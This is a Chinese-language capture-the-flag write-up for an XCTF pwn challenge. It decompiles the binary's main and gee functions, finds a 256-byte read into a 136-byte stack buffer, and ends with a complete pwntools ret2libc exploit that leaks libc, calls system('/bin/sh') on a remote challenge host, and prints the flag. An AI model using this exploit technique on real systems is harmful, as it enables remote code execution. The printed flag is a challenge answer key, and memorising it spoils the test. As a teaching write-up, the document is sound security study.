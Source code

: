 # HMI流水灯运行

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=ec0b1b86-24bc-44ed-8f9f-b232027b610f_2)

这题有点恶心，不过只有一点。

-   Arch:     i386-32-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <Br>NX:       NX enabled
    <Br>PIE:      No PIE (0x8048000)

比较舒服的配置。尝试运行一下，真就流水灯，也不见停止。没兴趣看下去了，直接上ghidra。

```python
void main(void)

{
  EVP_PKEY_CTX *in_stack_ffffff80;
  undefined4 local_71;
  undefined4 local_6d;
  undefined4 local_69;
  undefined4 local_65;
  undefined4 local_61;
  undefined4 local_5d;
  undefined4 local_59;
  undefined4 local_55;
  undefined4 local_51;
  undefined4 local_4d;
  undefined4 local_49;
  undefined4 local_45;
  undefined4 local_41;
  undefined4 local_3d;
  undefined4 local_39;
  undefined local_35;
  timeval local_34;
  timeval local_2c;
  int local_24;
  int k;
  int j;
  int i;
  undefined4 local_14;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  init(in_stack_ffffff80);
  puts("Welcome to horse race lamp program");
  sleep(1);
  write(1,"Initialization the program\n",0x1b);
  gettimeofday(&local_2c,(__timezone_ptr_t)0x0);
  sleep(1);
  for (i = 0; i < 3; i = i + 1) {
    local_14 = 100;
    for (j = 0; j < 60; j = j + 1) {
      local_71 = 0x2e2e2e2e;
      local_6d = 0x2e2e2e2e;
      local_69 = 0x2e2e2e2e;
      local_65 = 0x2e2e2e2e;
      local_61 = 0x2e2e2e2e;
      local_5d = 0x2e2e2e2e;
      local_59 = 0x2e2e2e2e;
      local_55 = 0x2e2e2e2e;
      local_51 = 0x2e2e2e2e;
      local_4d = 0x2e2e2e2e;
      local_49 = 0x2e2e2e2e;
      local_45 = 0x2e2e2e2e;
      local_41 = 0x2e2e2e2e;
      local_3d = 0x2e2e2e2e;
      local_39 = 0x2e2e2e2e;
      local_35 = 0;
      *(undefined *)((int)&local_71 + j) = 0x2a;
      puts((char *)&local_71);
      sleep_ms(local_14);
      printf("\x1b[1A");
      printf("\x1b[K");
    }
    for (k = 58; 0 < k; k = k + -1) {
      local_71 = 0x2e2e2e2e;
      local_6d = 0x2e2e2e2e;
      local_69 = 0x2e2e2e2e;
      local_65 = 0x2e2e2e2e;
      local_61 = 0x2e2e2e2e;
      local_5d = 0x2e2e2e2e;
      local_59 = 0x2e2e2e2e;
      local_55 = 0x2e2e2e2e;
      local_51 = 0x2e2e2e2e;
      local_4d = 0x2e2e2e2e;
      local_49 = 0x2e2e2e2e;
      local_45 = 0x2e2e2e2e;
      local_41 = 0x2e2e2e2e;
      local_3d = 0x2e2e2e2e;
      local_39 = 0x2e2e2e2e;
      local_35 = 0;
      *(undefined *)((int)&local_71 + k) = 0x2a;
      puts((char *)&local_71);
      sleep_ms(local_14);
      printf("\x1b[1A");
      printf("\x1b[K");
      if ((i == 2) && (k == 2)) {
        signal(0xe,handler);
        alarm(2);
      }
    }
  }
  gettimeofday(&local_34,(__timezone_ptr_t)0x0);
  local_24 = ((local_34.tv_sec - local_2c.tv_sec) * 1000000 + local_34.tv_usec) - local_2c.tv_usec;
  puts("\n");
  gee();
  return;
}
```

ghidra反编译复杂字符串就是这个结果，不知道ida是不是。看不出来什么东西，猜测是流水灯的实现。在最后发现了gee函数。

```c
void gee(void)

{
  undefined local_8c [136];
  
  read(0,local_8c,256);
  return;
}
```

太明显的栈溢出了。现在的目标就是看看gee什么时候调用。外层的for循环的i变量用来控制流水灯的行数，j往右走，k往左走。i只有3，从目前得到的信息推测，流水灯应该只会运行3行。实际运行结果是第四行无限跑。注意这个if语句，

```c
if ((i == 2) && (k == 2)) {
    signal(0xe,handler);
    alarm(2);
}
```

当i==2，k==2时，调用[signal](https://www.runoob.com/cprogramming/c-function-signal.html)函数设置handler函数处理0xe号信号。0xe正好是处理alarm的，因此在这行语句的两秒后，程序会进入handler。handler我看过了，跟main中的流水灯部分完全一样的实现，但是是无限循环。在进入handler函数前，我们会先进入gee函数，意味着我们有两秒的时间泄露libc地址并且getshell。

相信pwntools的速度。

```python
from pwn import *
r = remote("61.147.171.105",49242) 
r.recvuntil("\n\n")
writeplt = 0x08048510
writegot = 0x0804a030
readgot = 0x0804a00c
gee = 0x08048888
 
payload1 = b"A" * 140 + p32(writeplt) + p32(gee) + p32(1) + p32(readgot) + p32(4)
r.sendline(payload1)
a=u32(r.recv(4))

libc_base = a - 869200
system_address = libc_base+239936
binsh_address = libc_base+0x0015902b 
 
r.sendline(b"A"*140 + p32(system_address)+ b"BBBB"+ p32(binsh_address))
r.sendline("cat flag")
print(r.recvuntil("}\n"))
r.close()
```

我本来想直接r.interactive()的，但是发现cat出来的flag被吃了，看不到输出。所以我们要眼疾手快，用pwntools接收到flag后就关上。

- ### Flag
  > cyberpeace{5ef5405d20e547203be38d102f171c03}